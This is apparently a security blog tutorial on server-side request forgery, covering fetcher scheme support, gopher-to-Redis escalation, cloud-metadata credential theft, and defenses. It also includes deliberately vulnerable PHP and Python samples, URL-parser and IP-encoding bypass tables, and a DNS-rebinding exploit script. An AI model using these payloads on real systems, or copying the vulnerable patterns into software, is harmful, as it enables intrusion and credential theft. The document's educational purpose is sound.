


In this post we will cover a well-known vulnerability, <span style="color:#ff0000">Server-Side Request Forgery (SSRF)</span>, as it is not only about replacing a value with a domain that is not the one in context, which is a common misconception. The core concept will be what exactly SSRF is and its types, the differences between frameworks, parsers and functions, the attacks we can perform, and how we can increase the impact of a simple SSRF. We will also look at what we can actually protect against through mitigations, and how some of those mitigations can themselves be bypassed.

## What SSRF actually is

Whenever we build an application, it often has to interact with external services that reside on another IP, port, or protocol, or with another internal API inside the same host (there is also a related class, Server-Side Parameter Pollution, which shows how we can poison internal APIs, which will be covered in another post). That outbound functionality is what widens the attack surface: if the application accepts client-supplied, unsanitized data and uses it to decide what to call, a user gains the ability to manipulate how the application interacts with the external systems. In the end, we force a server into making a request it was never meant to make, to a destination we choose.

However, several mitigations exist, such as firewalls restricting outbound connections to certain protocols or IPs, allowlists, and denylists. But as we will see, most of them can be bypassed under the right conditions. This is not always the case but often enough that the only secure approach is allowlisting the resolved destination (covered later, along with why the weaker options are not enough).

The types of SSRF differ by how much of the fetched response actually makes it back to the attacker:

- **In-band (basic):** the fetched response is reflected directly in the application's reply, so you read internal data straight from the HTTP response you triggered.
- **Blind:** no internal data is returned in the response. You confirm and exploit out-of-band, by forcing the server to reach a host you control over DNS or HTTP and watching for the callback.
- **Semi-blind:** no internal data in the response either, but the behaviour leaks something. A status code, a timing difference, or an error that differs between "connection refused" and "connection succeeded" is enough to build a yes/no signal you can act on.

Some common places where attacker-controlled input becomes a server-side request (sinks): URL parameters, document converters, file importers that take a URL, and XML/SVG parsers (XXE to SSRF, since securely configuring an XML parser is not an easy task).

On a recent engagement, I bypassed an SSRF filter by simply changing the request method. This method is called <span style="color:#ff0000">**HTTP Verb Tampering**</span> ([CWE-650](https://cwe.mitre.org/data/definitions/650.html), [Impreva](https://www.imperva.com/learn/application-security/http-verb-tampering/)) and the vulnerability is that the validation logic only runs on one specific HTTP method, but the backend code that performs the actual network request runs regardless of the method that triggered it. For example:

```php
<?php
// Define the secure allowlist
$allowed_hosts = ['api.partner-service.com', 'status.partner-service.com'];

function host_is_allowed($url, $allowed_hosts) {
    $h = parse_url($url, PHP_URL_HOST);
    return in_array($h, $allowed_hosts, true);
}

$target = $_REQUEST['fetch_url'];   // Note: the code reads from $_REQUEST and not $_POST

// The filter is only wired into the POST method, which is the intended workflow
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!host_is_allowed($target, $allowed_hosts)) {
        http_response_code(403);
        exit('blocked');
    }
}

// The fetch runs regardless of the method, leading to an absolute filter bypass
echo file_get_contents($target);
```


In this example validation is only enforced when `REQUEST_METHOD === 'POST'`, but the code that actually performs the fetch reads from `$_REQUEST` (populated by GET or POST) and runs regardless of the method. Send the same parameter as a query string on a `GET` and the allowlist check is skipped entirely. The lesson is that <u>the security check and the code performing the request must read the same input under the same conditions, always</u>. When the check runs on one method but the fetch runs on every method, that mismatch alone is enough to produce SSRF and broken access control bugs.

Another important entry point is <span style="color:#ff0000">**XXE to SSRF**</span>. An XML parser that resolves external entities and is reachable by attacker-controlled XML (a SOAP endpoint, a SAML consumer, or any "import XML/SVG/DOCX" feature) lets you declare an external entity whose system identifier is a URL. When the parser expands it, the server performs the actual fetch. If we point it at `http://169.254.169.254/` the XXE becomes an SSRF into the cloud metadata service (Managed Identities and Azure attacks, and cloud overall, will be covered in a future post). Point it at an internal host and, whether the SSRF is blind or not, you can start mapping the internal network from response timing and error differences. The parser is just another client making a request, and whether it can reach `file://` or only `http://` depends on the same scheme-support question as the rest of this post.

Another thing before moving on: not every SSRF gives you control over the full URL. Sometimes the application builds the URL itself and only lets you control a path segment or a query parameter, so what you end up with looks more like `https://api.partner.com/<your_input>`. The host and scheme are fixed and you cannot move off the allowed domain, but you can still reach different endpoints on that host, attempt path traversal back out of the intended directory, inject extra query parameters, or smuggle a second URL through path normalization. These path-only SSRFs are a separate engagement of their own and we will not cover them in detail here, but they show up often enough in production that you should recognize the shape when you see it.

These are just some examples and do not cover every possible outcome, as the possibilities are infinite. Some other entry points are covered later in this post.

## The protocol layer

When people first learn about SSRF, they usually focus on the host destination: which internal IP or address can I force the server to reach. Usually as pentesters we will try to trigger an external connection to our server, or perform a request to localhost. But the host is only one piece of what an attacker can manipulate in a server-side request. The URI scheme matters just as much, since it dictates what the attack can actually escalate into. If the only scheme available is http, you can only reach internal web services. If the fetcher also speaks raw gopher or file, the surface of internal functionality you can reach is much larger.

What the server-side fetcher is able to speak sets a hard ceiling on what the SSRF can ultimately achieve. Before going into that ceiling, I want to look at what the browser natively refuses to speak, because the difference between browsers and server-side fetchers is what makes the bug class so useful in the first place. This is something I have not found explained, so I think it deserves a mention here.

### The browser fence

Having already done research on SOP, CSRF and CORS, I know that requests generated from a webpage have a lot of potential. When a page running in your browser tries to make a request, the browser refuses two big categories of things on its own:

1. **Scheme restrictions.** From page JavaScript you can only reach `http://`, `https://`, and a handful of safe schemes like `data:` and `blob:`. You cannot make a `fetch()` or an `XMLHttpRequest` to `file://`, `gopher://`, `ftp://`, or anything else, regardless of what the page asks for.
2. **Port restrictions.** The [WHATWG Fetch standard](https://fetch.spec.whatwg.org/#port-blocking) maintains a hardcoded list of ports the browser refuses to connect to, including SMTP (25), FTP (21), Telnet (23), POP3 (110), IMAP (143), and many others.

The reason both of these defenses exist is the same: <span style="color:#ff0000">cross-protocol</span> attacks. Jochen Topf documented in 2001 that an HTML form could send arbitrary bytes over an HTTP `POST` to an SMTP server on port 25 and trick it into sending email, and the modern follow-up is the <span style="color:#ff0000">ALPACA</span> work from USENIX Security 2021. The port blocklist is the browser's way of saying that even if some clever attacker convinces a page to fetch a weird port, the request will not actually leave the user's machine.

The catch is that none of this applies on the server side. `curl`, the PHP `curl` extension, Python `requests`, the Java `URL` class, and most of the other clients in the table below were built without those fences, because in their original use case they were being driven by a developer who knew what they were doing, not by an attacker-controlled URL. The moment one of these clients starts taking its destination URL from user input, every protection the browser would have applied is gone.

Exactly which dangerous destinations open up depends on which client, because each one supports a different set of schemes (the table below is the full breakdown). A `curl`-based fetcher (the `curl` CLI, the PHP `curl` extension, libcurl language bindings) will reach `gopher://internal-redis:6379` and `file:///etc/passwd` directly off the URL. Python `requests` and Go `net/http` will not, because they only speak HTTP and HTTPS in their default configuration. But every single client in the list will still happily make an HTTP request to `http://127.0.0.1:25/` (SMTP), or to any other port on the WHATWG blocklist, because that blocklist is not enforced server-side. The only widely deployed exception is Node's `fetch`, which inherits the browser's blocklist via `undici`. The column-by-column reach of each client is in the table below, but the difference from a browser is the same across all of them: none of these clients were originally designed to be driven by hostile input.

### What server-side fetchers actually accept

Each language and framework implements its HTTP fetch functions differently, so the inputs they accept and the protocols they support are not the same across the board. If we can accurately fingerprint the programming language (through Improper Error Handling or a leak of sensitive information) or the specific backend function used within a vulnerable SSRF endpoint, we save an enormous amount of time when crafting our payloads. The following table shows the default protocols accepted by common fetch functions across multiple languages:

| Fetcher / function | http(s) | ftp | file | gopher | dict | Other notable | Notes |
|---|---|---|---|---|---|---|---|
| **`curl` / `libcurl`** (CLI + bindings) | ✓ | ✓ | ✓ | ✓ | ✓ | `smtp`, `imap`, `pop3`, `ldap`, `telnet`, `tftp`, `scp`, `sftp`, `smb`, `ws(s)`, `mqtt`, `rtsp`, ... | Around 28 to 29 schemes depending on the build (verified 29 on curl 8.14). `gopher://` and `file://` are the schemes that matter most for escalation. |
| **PHP**: `file_get_contents` / fopen wrappers | ✓ | ✓ | ✓ | ✗ | ✗ | `php://`, `data://`, `phar://`, `compress.zlib://`, `glob://` | No gopher support by default, but internal pseudo-wrappers like `php://filter` and `phar://` deserialization sinks open up further attack paths (Hack The Box has a very good explanation of these wrappers). Verified on PHP 8.4 with `stream_get_wrappers()`. |
| **PHP**: `curl` extension | ✓ | ✓ | ✓ | ✓ | ✓ | Inherits everything libcurl supports | ⚠ Inherits every scheme libcurl speaks, running inside PHP itself. |
| **Python**: `requests` | ✓ | ✗ | ✗ | ✗ | ✗ |   | Completely safe scheme-wise. If a target endpoint attempts a cross-scheme redirect to `file://` or `ftp://`, `requests` explicitly throws an `InvalidSchema` error. |
| **Python**: `urllib.request` | ✓ | ✓ | ✓ | ✗ | ✗ | `data:` | Permissive default handlers. Unlike `requests`, it handles `file://` natively, so local file reads are easy if user input reaches this sink. |
| **Java**: `java.net.URL` / `URLConnection` | ✓ | ✓ | ✓ | ✗ | ✗ | `jar:`, `mailto:` | Default reach is `http(s)`, `ftp`, `file`, `jar:`, `mailto:`. The `gopher` and `netdoc` handlers existed on old JVMs (`netdoc://` was a `file://` alias useful against naive regex filters), but they have since been removed from modern JDKs and now throw `MalformedURLException`. |
| **Go**: `net/http` | ✓ | ✗ | ✗ | ✗ | ✗ |   | Locked down by default. `http.Get` refuses to parse or transition to file/ftp/gopher unless you build a custom Transport for it. |
| **Node.js**: `http` / `https` modules | ✓ | ✗ | ✗ | ✗ | ✗ |   | Basic HTTP client. Unlike modern fetch, legacy native `http.request()` does *not* validate or enforce the WHATWG blocked port list. |
| **Node.js**: `fetch` (undici core) | ✓ | ✗ | ✗ | ✗ | ✗ |   | Strictly HTTP/HTTPS. Matches browser behavior and drops requests aimed at ports on the WHATWG blocklist. |
| **Ruby**: `open-uri` / `Net::HTTP` | ✓ | ✓ | ✓ | ✗ | ✗ |   | `open-uri` dynamically augments clients to parse `ftp://` and `file://` paths. Historically (pre-Ruby 2.7), using un-scoped `open(url)` allowed RCE via shell pipes (`"\| id"`). Modern code should use `URI.open` instead, which does not have the shell-pipe behaviour. |
| **`wget`** (CLI / OS Command Injection context) | ✓ | ✓ | ✗ | ✗ | ✗ | `ftps` | Restrained to standard web data protocols. Supports recursive mirror structures but lacks local filesystem bridging hooks. |

Legend: ✓ supported by default · ✗ not supported by default · ⚠ inherits a much larger set.
> **Input filters vs. protocol capabilities.** Whatever an engine like `libcurl` can speak, a strict input filter or URL parser can drop the payload before it ever reaches the fetch. If the application validates the input and drops anything containing `gopher://`, `file://`, or a raw IP literal, even the most permissive fetcher cannot do anything dangerous. Keyword and regex blocks, though, are easy to slip past: as the next section shows, parser quirks, encoding tricks, and DNS configuration repeatedly let you bypass naive string filters while the underlying protocol support stays fully intact.

So in practice you should **fingerprint the fetcher first.** An SSRF in a Go service and one in a PHP-via-curl service have completely different impact, and impact has to be judged from the actual target context, not from the generic name of the bug. Even SQL injection ranges from low to high impact depending on the environment around it. (How to measure impact from context during our assessments is a topic for a future series on penetration testing methodology)

Practically: in a typical Go environment your path is usually limited to HTTP(S) and internal HTTP endpoints. In a PHP-via-curl environment you have `gopher://` and, with it, arbitrary TCP protocol smuggling (hitting a local Redis through SSRF over the gopher protocol is a common CTF scenario).

> Even a fetcher that natively speaks only HTTP can be tricked into making a `gopher://` or `file://` request through a redirect. The attacker submits `http://attacker.com/x`, the filter passes it because it is HTTP, then the fetcher makes the request and the attacker's server replies with `302 Location: gopher://internal-redis:6379/...`. If the client follows cross-scheme redirects (libcurl-based clients do by default), the outbound connection ends up on the gopher URL that the application's filter never even saw. <u>Always test whether the client follows cross-scheme redirects</u> and if it does, a "secure" HTTP-only client is effectively a `curl`-class one for SSRF purposes.

### What the gopher protocol actually is, and why it matters here

<span style="color:#ff0000">**Gopher**</span> is an information retrieval protocol from the early 1990s, designed at the University of Minnesota, that predates the web by a couple of years and was almost entirely replaced by HTTP within a few years of its release. Nobody runs gopher servers in any meaningful capacity today, so as a protocol on its own gopher is essentially dead.

What is not dead is the URL scheme, and specifically what the scheme tells a client to put on the wire. A URL of the form `gopher://host:port/_payload` instructs the client to open a raw TCP connection to `host:port` and write `payload` directly into the socket, with no protocol framing of its own (the underscore in front is a single-byte item-type marker that the client strips before sending). If you URL-encode arbitrary bytes into `payload` (CRLFs, NUL bytes, anything), the client transmits those bytes verbatim. The receiving service then reads them off the socket exactly as if they had come from one of its own clients.


That is how we can interact with another protocol through `gopher://`-based SSRF: you pick the host, port and every byte that gets sent. If the target host is running Redis on `:6379`, you can speak Redis at it. If it speaks Memcached, SMTP, FastCGI, MySQL, or any other line-based or length-prefixed protocol, you can speak and exploit that too. The payload you would write to exploit each of those services in their normal form is the same payload you stuff into a `gopher://` URL when the SSRF is your delivery channel. Not every gopher-based SSRF leads directly to impact, but it broadens the range of scenarios you can attempt from the same bug.

The practical reach of `gopher://` is bounded by the fact that almost no modern HTTP client speaks it. The only widely deployed stack that still does is <span style="color:#ff0000">**libcurl**</span>, which means:

- the `curl` command-line tool
- the **PHP `curl` extension** (`curl_init`, `curl_exec`, etc.)
- any language binding that wraps libcurl directly (e.g. PycURL, Perl's `WWW::Curl`)

Everything else in the table above does *not* speak gopher in its default configuration. So if you find an SSRF in a Go service or a `requests`-based Python service, the gopher escalation path simply does not exist for you, and the impact ceiling stays at HTTP-only. If you find an SSRF in a PHP application that ends up in `curl_exec`, gopher is on the table and the ceiling jumps to arbitrary internal-service RCE. It is the same bug at the source code level but the reach is completely different, which is why fingerprinting the fetcher first matters so much in practice.

### The scheme is the escalation ceiling

The rule that comes out of all of this is simple: <u>the scheme you can reach is the ceiling on what the SSRF can become.</u> Plain HTTP gets you reach and information, `file://` lets you read whatever the process can read, and `gopher://` (or any other raw-TCP scheme the fetcher supports) is the tier where SSRF crosses into code execution, because at that point you stop being constrained to well-formed HTTP and start speaking other services' protocols directly to them.

| Scheme ceiling | What it reaches | Representative escalation | Typical outcome |
|---|---|---|---|
| `http`/`https` only | internal HTTP services not exposed externally, cloud metadata at `169.254.169.254` (AWS, Azure, GCP all share that IP), the internal network itself even when the SSRF is blind | Spring Boot Actuator (`/actuator/env`, `/actuator/heapdump`), Docker API (`:2375`), Kubernetes API, Consul / etcd. IMDS endpoints for IAM credentials (AWS), managed-identity tokens (Azure), service-account tokens (GCP). Port and host scan via a timing or status-code oracle. | secret disclosure, cloud identity takeover, internal recon and mapping |
| `+ file://` | local files the process can read | `/etc/passwd`, application config containing DB credentials, `/proc/self/environ`, `~/.aws/credentials`, `~/.ssh/id_rsa`, the Kubernetes service-account token at `/var/run/secrets/kubernetes.io/serviceaccount/token` | credential, key and token disclosure, then lateral movement |
| `+ phar://` / `php://` / `data://` (PHP only) | the PHP stream wrappers, which are separate schemes the language exposes alongside `file://`, not nested inside it | `phar://` deserialization, `php://filter` chain read-to-RCE | RCE on PHP targets, when the right sink exists |
| `+ gopher://` / raw TCP | any TCP port, with arbitrary bytes on the wire | Redis (`:6379`): write `authorized_keys`, write cron, drop a webshell into a known web root, or `MODULE LOAD`. SMTP (`:25`). A forged POST request smuggled into an internal API that assumed only trusted callers could reach it. | RCE, privileged internal actions |

Another thing to keep clear is that `file://` reads, it does not execute. Reading a poisoned log file back to yourself is disclosure, and turning that log into code requires a separate sink (specifically, an `include()` or `require()` in a PHP application that takes a controllable path), so on any stack other than PHP this chain simply does not exist in the same form. `gopher://`, by contrast, is the line where SSRF becomes RCE on its own, because being able to write arbitrary bytes to any TCP port lets you talk to unauthenticated line-based services in their own protocol. Redis is the most common example. The same trick also smuggles a fully formed POST into an internal API that assumed any caller coming from inside the network was already trusted.

## Escalation and impact

The cloud-metadata row deserves a bit more detail, because the three big clouds share the IP but not the protocol around it, and the practical exploitability from a vanilla SSRF varies between them.

- **AWS <span style="color:#ff0000">IMDSv1</span>** returns temporary IAM credentials on a plain GET with no special headers, which is exactly the shape a typical URL-only SSRF can satisfy.
- **AWS <span style="color:#ff0000">IMDSv2</span>** ([AWS docs](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-IMDS-use-IMDSv2.html)) mitigates that by requiring a PUT to fetch a session token and then a header on the subsequent call, which a pure SSRF usually cannot send.
- **Azure** requires the `Metadata: true` header on the request.
- **GCP** requires the `Metadata-Flavor: Google` header.

Neither the Azure nor the GCP header is something the fetching library will add on its own, so if the SSRF only lets you control the URL string, AWS IMDSv1 is reachable but Azure and GCP IMDS are effectively closed. They open back up only when the surrounding application separately lets you control headers, when the underlying HTTP client follows redirects in a way that propagates a fixed header you can influence, or when the URL parser is loose enough to allow <span style="color:#ff0000">**CRLF injection**</span> into the request. That last case still works against some older or hand-rolled clients, even though most modern libraries now reject CRLF in URLs.

A few concrete attack paths are worth holding in your head as shapes, since the rest of the engagement usually maps onto one of them. Each starts from the same SSRF bug, and what changes is the scheme available and the environment sitting around it.

- **HTTP-only SSRF to cloud metadata to cloud takeover.** A vulnerable app running on an EC2 instance fetches an attacker-supplied URL, so you point it at `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>` and read the temporary IAM credentials straight out of the response. The same idea exists for Azure (`/metadata/identity/oauth2/token`) and GCP (`/computeMetadata/v1/instance/service-accounts/default/token`), but as noted above, they require headers a vanilla SSRF normally cannot set, so they are reachable only when the surrounding application gives you that extra control. From there the path leaves the application entirely and becomes a cloud-API engagement with the stolen identity.
- **SSRF to the application's own internal endpoints to RCE or LFI.** The reason it works is that the SSRF runs from inside the application server, so the request reaches the rest of the app from `127.0.0.1` or the internal network, which is exactly the source many applications trust for admin and debug functionality. Spring Boot Actuator endpoints (`/actuator/env`, `/actuator/heapdump`), WordPress `wp-admin` panels that are firewalled off from the public internet, internal `/admin` consoles, database management UIs like phpMyAdmin or Adminer that were never meant to face the internet, and debug or profiling endpoints that skip authentication for loopback origins all become reachable. From there you can pivot to RCE through admin command execution, plugin or theme upload, configuration changes that run code on save, or template-injection-style sinks, and to LFI through debug log viewers and file-browser endpoints. The SSRF effectively lets the application talk to itself with privileges it would never give an outside visitor.
- **SSRF + `file://` to SSH key disclosure to direct SSH.** This one wants the fetcher to accept `file://`, the application process to have read access to the runtime user's home directory, and SSH to be reachable externally. Read `~/.ssh/id_rsa`, confirm the username from `/etc/passwd`, and after that use the key to login. The same works for `~/.aws/credentials` for cloud access or `/var/run/secrets/kubernetes.io/serviceaccount/token` for in-cluster Kubernetes pivots.
- **SSRF + `gopher://` to Redis to `authorized_keys` to SSH.** Internal Redis on `:6379`, unauthenticated, running as a user whose `.ssh` directory is writable. The flow is to smuggle `CONFIG SET dir` to that directory, `CONFIG SET dbfilename authorized_keys`, `SET` a key whose value is your padded public key, and `SAVE`. In real engagements the SSH port also has to be reachable from somewhere you hold the private key, which is usually where the chain dies: if Redis is internal and SSH is internal too, the path is theoretical. As a result this one is much more a CTF favorite than a frequent real-world finding.
- **SSRF + `file://` to log poisoning to LFI to RCE (PHP only).** Worth flagging because it gets miscategorised in write-ups. Reading the poisoned log is the SSRF half, and turning that log into executing code requires a separate `include()` or `require()` somewhere in the application that will pull the poisoned log path and evaluate it as PHP. Without that PHP-specific second sink, no other stack treats a log file as code, so the chain reduces to disclosure only.

### Sustained server engagement (SSRF → DoS)

There is one more angle here, on the availability side rather than data access. The setup is asymmetric: the attacker's request closes quickly, but the outbound request the server makes is held open by an endpoint that stalls or slowly trickles the response back. The thing that controls how bad this gets is the timeout on that outbound request, since the longer the server waits before giving up, the longer each held-open socket costs it a file descriptor and a source port. Both are finite resources, and exhausting them at the same time is what takes the server down. I watched this presented at BSides in Greece and it was a very good talk, so I will not try to explain it here. The research and the tool live in the [`mustaine` repository](https://github.com/dglynos/mustaine).

## Bypassing SSRF defenses: the three families

Most SSRF defenses try to answer a single question: *is this destination allowed?* The trouble is that almost every implementation answers it about the wrong object, because what gets validated and what gets connected to are not always the same thing. The bypasses fall into three families, each attacking a different layer of that mismatch.



The connection across all three families is that what was validated is not what gets connected to.

### Parser confusion (string level)

This is the family Orange Tsai's *A New Era of SSRF* explored, and the talk is still cited today because the same bug class keeps showing up. (really helped me understand, worth reading) The bug is structural: applications routinely pass the same URL through two different pieces of code, one that *parses* the URL to check it, and one that actually *requests* it. If those two pieces of code disagree on what the URL means (and this is very common), you can craft a string that both parsers accept but interpret differently, so the validator ends up checking a host on the allowlist while the HTTP client connects to a host on the internal network. Each parser, on its own, is doing exactly what its own rules say.

The best example, from Orange Tsai's slides, is the credential-confusion case. Consider the URL `http://foo@127.0.0.1:11211@google.com/`. PHP's `parse_url` sees the host as `google.com` (the part before the final `@` is treated as userinfo, and you can verify this by running `php -r 'print_r(parse_url("http://foo@127.0.0.1:11211@google.com/"));'` on a current PHP). libcurl, in its older versions, used to treat the *first* `@` as the userinfo delimiter and would connect to `127.0.0.1:11211` (an internal memcached). A naive allowlist that runs `parse_url` and checks the host is essentially useless against this string, because the host the validator inspected is not the host the HTTP client opened a connection to.


Modern libcurl (8.x) has tightened its URL parsing and now rejects this exact string with a port-parsing error, so the specific payload above is mostly historical. The bug class (two parsers disagreeing on the same URL) still happens regularly, especially in custom applications, with different payload shapes.

The same idea has several variants, and they all live in the gaps between RFC 3986, WHATWG, and whichever in-house URL parser the language ships:

| Bypass shape | What it looks like | Why it works |
|---|---|---|
| Userinfo trick | `http://allowed.com@169.254.169.254/` | one parser treats `allowed.com` as userinfo, another reads it as host |
| Double `@` | `http://allowed.com@evil@internal.host/` | parsers disagree on which `@` separates userinfo from host |
| Fragment confusion | `http://169.254.169.254#@allowed.com/` | one parser ends the host at `#`, another keeps reading |
| Backslash / whitespace | `http://allowed.com\@internal.host/` | normalised by one parser, treated literally by the other |
| CR-LF injection | `http://allowed.com\r\nHost: 169.254.169.254` | older or hand-rolled clients let the injected header override the destination |
| Path-as-host | `http:///169.254.169.254/` (triple slash) | some parsers read the first path segment as host |

Defending against this family is not straightforward, because you cannot build a universal regex. The problem lives in the disagreement between two pieces of code, each of which looks fine when you read it on its own. The only fix is the one I will spell out in the "What actually works" section: <u>stop validating the *string*, validate the *resolved IP that the connection actually connects to*</u>, and use the same client for both the check and the request.

If you want to read further: Orange Tsai's *A New Era of SSRF* talk (Black Hat USA 2017) is still the talk to start from, and the follow-up research is Claroty Team82 and Snyk's joint paper *Exploiting URL Parsing Confusion* (2022), which tested sixteen URL parsers across the major languages, named five repeatable inconsistency categories (scheme confusion, slash confusion, backslash confusion, URL-encoded-data confusion, scheme mixup), and shipped eight CVEs out of it, one of which was a bug in libcurl itself. Snyk's companion blog post [*URL confusion vulnerabilities in the wild*](https://snyk.io/blog/url-confusion-vulnerabilities/) is the more readable version of the same work. All of this research really helped me to truly understand what is happening and how to explain it. And if you want the answer to why these inconsistencies exist at all, Daniel Stenberg (the maintainer of curl) has written a lot about the RFC 3986 vs WHATWG split, which is the underlying cause of every one of these bugs.

Finally, this is a URL from PortSwigger that generates payloads I have actually used to bypass filters on real engagements. The [URL validation bypass cheat sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet) takes a target hostname and an attacker-controlled hostname and produces a long list of confusable forms you can paste straight into Burp.

### DNS rebinding (time level)

The second family is structurally different. Instead of two parsers disagreeing on a string, you have two DNS resolutions disagreeing across time. The validator resolves a hostname, gets a public IP, checks the IP against a denylist, and the check passes. Then the HTTP client, a moment later, resolves the same hostname *again*, and this time the answer is different, so even though the check passed, the connection ends up landing on an internal address anyway.

The bug is a <span style="color:#ff0000">TOCTOU</span> ([time-of-check to time-of-use](https://cwe.mitre.org/data/definitions/367.html)) race on DNS. The real problem is that the application validated a *hostname*, but what actually matters for security is the *IP the connection lands on*, and between those two operations it asked DNS the same question twice.


Here is roughly what a vulnerable Python application looks like. The shape is intentionally familiar, because variations of this code show up in a huge number of internal tools:

```python
import socket
import ipaddress
import requests

def is_safe(hostname):
    ip = socket.gethostbyname(hostname)        # first resolution
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local:
        return False
    return True

def fetch(url):
    from urllib.parse import urlparse
    host = urlparse(url).hostname
    if not is_safe(host):
        raise Exception("blocked")
    return requests.get(url).text                # second resolution, inside requests
```

The problem is that there are two DNS resolutions inside this function and only one of them is actually checked.

Set up authoritative DNS for a domain you own with a very low TTL (typically `0` or `1` second). When `is_safe` calls `gethostbyname`, your DNS server answers with a real public IP (`1.1.1.1` is the usual choice in proofs of concept), the check passes, and the execution continues. By the time `requests.get` resolves the same hostname a moment later, the TTL has expired and your DNS server now answers `127.0.0.1`, or `169.254.169.254`, or whatever internal address you actually want, so the HTTP request goes to the internal host even though the validation step had approved a completely different IP a moment earlier.


In a proof of concept you don't even need to own a domain. The [`https://lock.cmpxchg8b.com/rebinder.html`](https://lock.cmpxchg8b.com/rebinder.html) service generates a hostname that alternates between two IPs you specify, and you can chain together a hostname like `7f000001.01010101.rbndr.us` (encoded `127.0.0.1` and `1.1.1.1`) and just retry until the right two resolutions land in the right order.

> **Sanity check.** If you test the hostname with `dig` or `nslookup` from your own machine and only ever see one of the two IPs, that is your local resolver pinning the first answer in its cache. The target application running its own resolver will see the alternation normally.

For a real engagement, or for reliability, run your own authoritative DNS server with a purpose-built tool like NCC Group's [Singularity of Origin](https://github.com/nccgroup/singularity) and serve a deterministic sequence.

On the exploit side, each request you send to the vulnerable application triggers two DNS resolutions inside it, so you just need to keep retrying until the first resolution returns the public IP (and passes validation) and the second one returns the internal IP (which is what the connection actually uses):

```python
import requests

# 7f000001.01010101.rbndr.us hostname that alternates between 1.1.1.1 (public, passes is_safe)
# and 127.0.0.1 (loopback, what we actually want the socket to dial)
host = "7f000001.01010101.rbndr.us"
target = f"http://{host}/admin"

for attempt in range(50):
    try:
        r = requests.get(
            f"https://victim.example/fetch?url={target}",
            timeout=4,
        )
        if r.status_code == 200 and "admin" in r.text.lower():
            print(f"[{attempt}] hit internal target ({len(r.content)} bytes)")
            print(r.text[:400])
            break
        print(f"[{attempt}] {r.status_code}")
    except requests.RequestException as e:
        print(f"[{attempt}] {e}")
```

If you want a deterministic version that does not rely on retries, you can run your own authoritative DNS server with [`dnslib`](https://pypi.org/project/dnslib/) and serve `1.1.1.1` for the first query the application makes and `127.0.0.1` for every query after that, which makes the attack succeed on the first request rather than after many retries.

Modern browsers and some HTTP clients implement their own DNS pinning or caching, which can shrink or even close the window the attack relies on. The realistic defense is to <u>**resolve the hostname once, validate that resolved IP, and then connect to the IP directly**</u> rather than the hostname. That collapses the two resolutions into one, so there is no second lookup for the attacker to interpose on. We will come back to this in the "What actually works" section.

A reasonable question is whether the DNS resolver itself can stop this without the application doing anything. The answer is "kinda". `dnsmasq` has a `--stop-dns-rebind` flag and `Unbound` has a `private-address:` directive, both of which refuse to return private IPs for public domain names. Both are off by default, so you cannot assume any given deploy environment has them enabled, and neither helps when the application's HTTP client speaks directly to a configured DNS server, when it brings its own resolver, or when the attack uses an IP outside the configured private ranges. The reliable defense lives in the code, as it does for most web vulnerabilities.

### IP-encoding tricks (representation level)

The third family is the most mechanical of the three, and the problem here is in how an IP address is *written*. The same destination has many textual forms. Any validator that does a literal string match, or parses naively, will miss most of them, while the operating system's resolver accepts all of them.

A denylist that contains `127.0.0.1` and `169.254.169.254` as literal strings misses every entry in the list below (well-known libraries can usually protect the application against this).

| Representation | Example | Same as |
|---|---|---|
| Standard dotted-quad | `127.0.0.1` | itself |
| Decimal (single 32-bit integer) | `2130706433` | `127.0.0.1` |
| Hex | `0x7f000001` | `127.0.0.1` |
| Hex per-octet | `0x7f.0x0.0x0.0x1` | `127.0.0.1` |
| Octal | `0177.0.0.1` | `127.0.0.1` |
| Mixed encoding | `0x7f.1` | `127.0.0.1` |
| Short form | `127.1` | `127.0.0.1` |
| Even shorter | `0` | `0.0.0.0`, which on most systems means localhost |
| `0.0.0.0` | `0.0.0.0` | listens-on-all, often routes to localhost from a local process |
| Leading zeros | `127.000.000.001` | `127.0.0.1` (works as long as each octet stays within glibc's per-octet limit, so `127.000000000000000.0.0.1` does *not* resolve on modern systems) |
| IPv6 loopback | `[::1]` | localhost |
| IPv4-mapped IPv6 | `[::ffff:127.0.0.1]` | `127.0.0.1` |
| IPv4-mapped metadata | `[::ffff:169.254.169.254]` | AWS metadata |
| DNS that points home | `localtest.me`, `*.localtest.me` | resolves to `127.0.0.1` publicly |
| Wildcard DNS for any IP | `127.0.0.1.nip.io`, `169.254.169.254.nip.io` | resolves to whatever IP is in the subdomain |

`localtest.me` (a free public DNS record pointing at `127.0.0.1`) and `nip.io` (a wildcard DNS service that resolves any `<ip>.nip.io` to the embedded IP) are the two everyone reaches for first. Both turn an IP-validation problem into a hostname-resolution problem, which collapses straight back into the DNS rebinding family above if the application resolves twice, or just hands you a free win if the application only checks for "is this a private IP literal" without resolving at all.

